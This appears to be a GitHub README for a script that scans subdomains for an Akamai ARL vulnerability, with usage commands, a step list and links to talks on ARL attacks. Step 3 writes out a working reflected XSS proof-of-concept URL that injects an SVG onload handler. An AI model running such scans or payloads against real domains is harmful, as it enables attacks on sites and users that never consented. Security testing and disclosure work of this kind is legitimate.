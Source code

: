 
# Akamai ARL Hack

<small>**Update 2021-08-06** : An [Akamai notice](https://community.akamai.com/customers/s/article/WebPerformanceV1V2ARLChangeStartingFebruary282021?language=en_US) \[[backup](https://archive.is/SWQjV)\] posted some months after our publication suggests this ARL issue will stop working globally 2021-08-10. They also wrote an explicit vuln explainer. \[[gated link](https://community.akamai.com/customers/s/article/V1-ARL-vulnerability)\]</small>

Script to test open Akamai ARL vulnerability.

When successful, you can more or less load arbitrary Akamai-hosted content from the target subdomain.

## Usage

```
python arl.py <subdomain>

python arl.py list_of_subdomains.txt
```

Where the latter is a text file of line-delimited targets.

## What it tries to do

```
1. GET request to subdomain.example.org
2. If response doesn't suggest naked Akamai showing, exits
3. http://subdomain.example.org/7/100/33/1d/www.citysearch.com/search?what=reallylongstringtomakethepayloadforxssmoveoutofview&where=place%22%3E%3Csvg+onload=confirm(document.location)%3E
4. Prints 'true' or 'false' whether that payload seemed to work
```

## More info on ARL attacks

*Chronological*

https://www.youtube.com/watch?v=ekUQIVUzDX4

https://www.slideshare.net/a4202655/black-hat-usa2015bypasssurgery6aug2015

http://securityhorror.blogspot.com/2019/04/hacking-temporal-locality.html

https://warandcode.com/post/akamai-arl-hack/

https://community.akamai.com/customers/s/article/WebPerformanceV1V2ARLChangeStartingFebruary282021?language=en_US

https://community.akamai.com/customers/s/article/V1-ARL-vulnerability

